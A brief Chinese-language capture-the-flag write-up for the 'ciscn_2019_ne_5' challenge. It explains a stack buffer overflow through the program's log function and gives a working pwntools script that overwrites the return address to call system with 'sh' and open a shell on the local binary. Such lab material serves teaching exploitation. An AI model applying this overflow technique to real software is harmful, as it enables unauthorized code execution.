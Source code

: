 ```yaml
---
title: "ciscn_2019_ne_5"
description: ""
date: 2023-04-07T12:39:30+08:00
lastmod: 2023-04-07T12:39:30+08:00
draft: false
images: []
type: docs
weight: 984
toc: true
---
```


## 0x01 分析

![bf5923137fbc556f2da88163eb82824a](images/bf5923137fbc556f2da88163eb82824a.png)  

AddLog函数可以输入128个字符

![d857853671e738873442d4b598368a0b](images/d857853671e738873442d4b598368a0b.png)  

再通过GetFlag函数就会被溢出

程序里有system函数，而且在程序里找到了 `sh` 字符串

![4a94f6025fd5beda04a829bf34d2a2a9](images/4a94f6025fd5beda04a829bf34d2a2a9.png)  

所以就是简单的ret2libc

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
elf = ELF("./pwn")
sys_plt = elf.plt['system']
sh = next(elf.search(b"sh"))
o.sendline("administrator")
payload = b'a'*(0x48+4) + p32(sys_plt) + b'a'*4 + p32(sh)
o.sendline("1")
o.sendline(payload)
o.sendline("4")
o.interactive()

```

![2f2c98460a1f136a585a34bb8f54d894](images/2f2c98460a1f136a585a34bb8f54d894.png)  

自行调试
